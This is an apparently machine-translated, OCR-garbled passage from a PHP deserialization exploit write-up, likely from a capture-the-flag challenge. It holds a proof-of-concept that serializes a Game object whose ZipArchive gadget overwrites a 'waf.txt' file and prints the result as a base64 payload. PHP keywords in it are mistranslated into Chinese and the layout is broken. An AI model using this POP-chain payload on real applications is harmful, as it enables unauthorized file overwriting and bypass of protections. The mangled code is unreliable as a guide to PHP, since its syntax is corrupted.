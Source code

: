 
|

    
    
      
    class  Game { public $username ; 公共$password ; 公共$choice ; 公共$register ;  
            
            
            
            
      
        公共  $file ; 公共$ 文件名；公开$content ; 公共函数__construct (  
            
            
          
          )  
         { $this ->username= 'user' ; $this ->password= '用户' ;     }  
              
              
      
      
        公共 函数 __wakeup () { if (md5( $this ->register)=== "21232f297a57a5a743894a0e4a801fc3" ){     // admin $this ->choice= new login( $this ->file, $this ->filename, $this ->content) ;         } else { $this ->choice = new register();         }     }公共函数__destruct (  
              
                  
      
                  
      
      
          ) { $this ->choice->checking( $this ->username, $this ->password);     }  
              
      
      
    }  
      
    类 登录{公共$file ; 公共$ 文件名；   公开$content ; }  
           
           
           
      
      
    class  Open { function open ( $filename , $content ) {    }} $poc = new Game(); $poc ->username = "admin" ; $poc ->password = "admin" ; $poc ->register = "admin" ; $poc ->file = new ZipArchive(); $poc ->filename = "waf.txt" ; $poc ->content = ZipArchive::OVERWRITE; echo base64_encode(serialize( $poc ));  
           
      
      
      
      
      
      
      
      
      
      
      
  
---|---  
  
`  
`

`生成有效载荷：`

`  
`

``

`蟒蛇`
